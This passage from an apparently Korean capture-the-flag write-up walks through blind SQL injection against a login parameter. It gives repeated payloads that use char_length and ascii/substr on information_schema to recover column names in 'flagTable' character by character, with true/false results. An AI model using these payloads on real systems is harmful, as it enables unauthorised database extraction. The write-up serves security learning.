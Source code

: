 ### 4.2. 글자수 확인
#### 4.2.1. 1번째
1. **normaltic' and ((char_length((select column_name from information_schema.columns where table_name = 'flagTable' limit 0, 1))) < 10) #**
-> O  
1. **normaltic' and ((char_length((select column_name from information_schema.columns where table_name = 'flagTable' limit 0, 1))) < 5) #**
-> O  
1. **normaltic' and ((char_length((select column_name from information_schema.columns where table_name = 'flagTable' limit 0, 1))) < 3) #**
-> X  
1. **normaltic' and ((char_length((select column_name from information_schema.columns where table_name = 'flagTable' limit 0, 1))) = 4) #**
-> X  
1. **normaltic' and ((char_length((select column_name from information_schema.columns where table_name = 'flagTable' limit 0, 1))) = 3) #**
-> X  
-> 🤔 혹시 idx?

#### 4.2.2. 2번째
1. **normaltic' and ((char_length((select column_name from information_schema.columns where table_name = 'flagTable' limit 1, 1))) < 10) #**
-> O  
1. **normaltic' and ((char_length((select column_name from information_schema.columns where table_name = 'flagTable' limit 1, 1))) < 5) #**
-> O  
1. **normaltic' and ((char_length((select column_name from information_schema.columns where table_name = 'flagTable' limit 1, 1))) < 3) #**
-> X  
1. **normaltic' and ((char_length((select column_name from information_schema.columns where table_name = 'flagTable' limit 1, 1))) = 4) #**
-> O  
-> 🤔 혹시 flag

### 4.3. 이름 확인
#### 4.3.2. 2번째
1. **normaltic' and (ascii(substr(((select column_name from information_schema.columns where table_name = 'flagTable' limit 1, 1)), 1, 1)) = 102) #**
-> O  
-> 찾은 글자: fxxx  
-> 예측한 글자: flag  
1. **normaltic' and (ascii(substr(((select column_name from information_schema.columns where table_name = 'flagTable' limit 1, 1)), 2, 1)) = 108) #**
-> O  
-> 찾은 글자: flxx  
-> 예측한 글자: flag  
1. **normaltic' and (ascii(substr(((select column_name from information_schema.columns where table_name = 'flagTable' limit 1, 1)), 3, 1)) = 97) #**
-> O  
-> 찾은 글자: flax  
-> 예측한 글자: flag  
1. **normaltic' and (ascii(substr(((select column_name from information_schema.columns where table_name = 'flagTable' limit 1, 1)), 4, 1)) = 103) #**
-> O  
-> 찾은 글자: flag  
-> 예측한 글자: flag  
